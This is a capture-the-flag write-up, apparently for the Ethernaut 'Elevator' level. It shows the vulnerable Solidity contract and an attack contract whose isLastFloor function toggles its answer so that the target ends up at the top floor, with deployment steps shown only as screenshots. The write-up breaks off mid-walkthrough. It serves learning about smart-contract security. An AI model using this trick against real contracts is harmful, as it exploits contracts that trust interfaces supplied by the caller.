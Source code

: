 # Task

This elevator won't let you reach the top of your building. Right?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/516d6c35-6444-48f6-aaa2-42618867c170)

We'll start out by using cast to check the state of the elevator

![image](https://github.com/user-attachments/assets/fb8e9fdf-ab41-4ed3-ad3e-f26a50dcd251)

We get the "false" response, this means we aren't at the top of the building yet

Lets check the floor we are at

![image](https://github.com/user-attachments/assets/111dcded-99a1-4041-bc06-9c533ab567f9)

We are at floor "0".

To solve this chall we have to be on the last floor. Lets write our attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./elevator.sol";

contract elevatorAttack {
   bool public toggle = true;
   Elevator public target;

   constructor(address _targetAddr) public {
    target = Elevator(_targetAddr);
   }
   
   function isLastFloor(uint) public returns (bool) {
        toggle = !toggle;
        return toggle;
   }

    function setTop(uint _floor) public {
        target.goTo(_floor);
    }
}
```


Lets deploy this attack contract with forge

![image](https://github.com/user-attachments/assets/65925b13-aaa0-44a1-bbfa-82150462beb8)

Now that we've successfully deployed this, lets interact with the functions

We'll start by setting the top to say "floor 20" 

![image](https://github.com/user-attachments/assets/61aa3195-57ba-409d-a65b-90c9475a6a52)








































